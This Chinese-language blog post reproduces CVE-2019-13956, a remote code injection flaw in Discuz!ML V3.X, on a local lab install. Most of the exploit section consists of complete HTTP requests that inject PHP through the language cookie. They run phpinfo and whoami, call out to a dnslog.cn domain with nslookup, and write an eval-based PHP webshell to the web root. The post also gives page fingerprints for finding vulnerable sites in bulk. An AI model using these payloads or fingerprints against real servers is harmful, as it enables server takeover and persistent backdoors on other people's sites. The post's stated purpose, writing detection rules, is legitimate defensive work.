 ```yaml
---
layout:     post
title:      【复现】Discuz!ML V3.X 代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-19
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Discuz!ML V3.X 代码注入漏洞
* CVE编号：CVE-2019-13956
* 发布时间：2019-06-14
* 漏洞说明：该漏洞存在于请求流量中的cookie参数中的language字段，攻击者能够利用该漏洞在请求流量的cookie字段中（language参数）插入任意代码，最终执行任意代码，从而实现完全远程接管整个服务器的目的。
* 影响范围：Discuz! ML v.3.4、Discuz! ML v.3.3、Discuz! ML v.3.2
* 修复建议：目前官方暂未进行安全更新，使用该CMS的用户可时刻关注官方网站以及代码托管网站获取最新信息


## 0x01 环境搭建
首先去官网下载源码：
[http://discuz.ml/download](http://discuz.ml/download)
下载完成后，解压到WWW目录下，打开phpstudy，访问URL，出现安装界面：
![图片](../../../../img/discuz_ml_rce_1.png)
正确填写数据库信息和管理员信息点击下一步：

![图片](../../../../img/discuz_ml_rce_2.png)

稍等几秒后，出现completed说明安装完成：
![图片](../../../../img/discuz_ml_rce_3.png)



## 0x02 漏洞复现
### Poc验证
我们可以利用phpinfo信息来验证漏洞是否存在：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_language=sc'.phpinfo().'; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_lastact=1568857423%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_4.png)

我们也可以利用system函数去执行系统命令来验证漏洞是否存在，whoami是Windows/Linux通用命令：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('whoami').%27; u7ip_2132_lastact=1568857490%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_5.png)

但是whoami回显的内容不容易被程序识别，因此我们可以借用DNSLOG平台来验证，考虑到nslookup有些Linux服务器可能没有，也可以使用ping dnslog_server：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('nslookup 4evdeu.dnslog.cn').%27; u7ip_2132_lastact=1568857490%09index.php%09
```


![图片](../../../../img/discuz_ml_rce_6.png)

### EXP利用
我们可以通过这个漏洞来写webshell，HTTP请求包如下，执行成功会返回正常页面，执行错误会报错，webshell在网站根目录下：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: X9O9_2132_saltkey=seXAWPyb; X9O9_2132_language=sc'.file_put_contents%28%27x.php%27%2Curldecode%28%27%253c%253fphp%2520@eval%28%2524_%25%35%30%25%34%66%25%35%33%25%35%34%255b%2522x%2522%255d%29%253b%253f%253e%27%29%29.'; X9O9_2132_lastvisit=1568854995; X9O9_2132_sid=ZUI7iz; X9O9_2132_sendmail=1; sid=abc48gBCCWNz%252FH9NX2yt9UHcyxMQp02Yw80wGxY%252B%252Bqf7oBiEN31WIcrdCg; X9O9_2132_lastact=1568858654%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_7.png)

![图片](../../../../img/discuz_ml_rce_8.png)


## 0x03 Web指纹
想要批量怎么能木有指纹？！
* <meta name\="generator" content\="Discuz! (.*?)" />
* <meta name\="author" content\="Discuz!(.*?)" />
## 0x04 总结

1、一开始在利用漏洞写php webshell的时候，出现了报错，最后是在Github上的利用工具中发现了不报错的EXP，这个项目的地址是[https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py](https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py)，没有这个我估计又得自闭了。
2、在写策略的时候，遇到cookie随机的问题，通过写了一个正则表达式匹配了出来
`[A-Za-z0-9]{4}_[A-Za-z0-9]{4}_language=[A-Za-z]{2}`
